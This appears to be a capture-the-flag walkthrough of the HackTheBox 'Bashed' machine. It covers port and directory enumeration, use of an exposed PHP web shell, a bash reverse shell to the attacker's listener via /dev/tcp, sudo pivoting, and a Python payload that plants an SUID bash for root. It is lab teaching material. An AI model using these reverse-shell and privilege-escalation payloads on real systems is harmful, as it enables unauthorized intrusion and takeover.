


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.10.68 -o allPorts
```

```
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p <ports> -sCV <dns>.htb -o targeted
```
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

We find a web server running Apache 2.4.18 on port 80. We will visit the website in our browser to see if there is any interesting content.



We do not see much on the homepage, so we will use a directory brute-forcing tool like ffuf to find hidden directories and files.

```bash 
ffuf -u http://10.10.10.68/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
```
```
php                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 35ms]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 36ms]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 35ms]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 35ms]
images                  [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 4991ms]
```
We find a directory named `dev`. If we visit it, we see a directory listing page.


We find in `phpbash.php` a bash web shell. We can use it to execute commands on the target machine.

## User Exploitation

We can use this on our advantage to get a reverse shell. We will use a simple bash reverse shell payload.

First, we will set up a listener on our machine using netcat:
We set up a netcat listener on our machine to catch the reverse shell.

```bash
nc -lvnp 443
```

Then, we will execute the following command in the web shell to get a reverse shell:
```bash
bash -c "bash -i >%26 /dev/tcp/10.10.14.10/443 0>%261"
whoami
```
```
www-data
```

Now we can see the user flag in `/home/arrexel/user.txt`.


## Root Exploitation

We check the sudo privileges of the `www-data` user.

```bash
sudo -l
```
```
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

We can run commands as the `scriptmanager` user without a password. We will switch to the `scriptmanager` user using `sudo -u`.

```bash
sudo -u scriptmanager bash
whoami
```
```
scriptmanager
```

We look for files owned by the `scriptmanager` user outside his home directory or `/proc`.

```bash
find / -user scriptmanager 2>/dev/null | grep -v "/proc" | grep -v "/home/scriptmanager"
```
```
/scripts
/scripts/test.py
```

We look at the `/scripts/test.py` file.

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

We also find a `test.txt` file in the `/scripts` directory.

```bash
cat /scripts/test.txt
```
```
testing 123!
```

We guess that `root` runs this script periodically since `test.txt` is owned by `root`.

We will use a simple python payload to try to escalate our privileges.
```python
import os

os.system("cp /bin/bash /tmp/bash; chmod +xs /tmp/bash")
```

We wait for the script to run and then we can use the `/tmp/bash` shell to get a root shell.

```bash
ls -la /tmp/bash
```
```
-rwsr-xr-x 1 root root 1113504 Oct  2 19:25 /tmp/bash
```

```bash
/tmp/bash -p
whoami
```
```
root
```

## Conclusion
We have successfully exploited the `Bashed` machine and obtained both user and root flags. The key steps involved finding a web shell, leveraging it to get a reverse shell, and then exploiting sudo privileges to escalate to root.
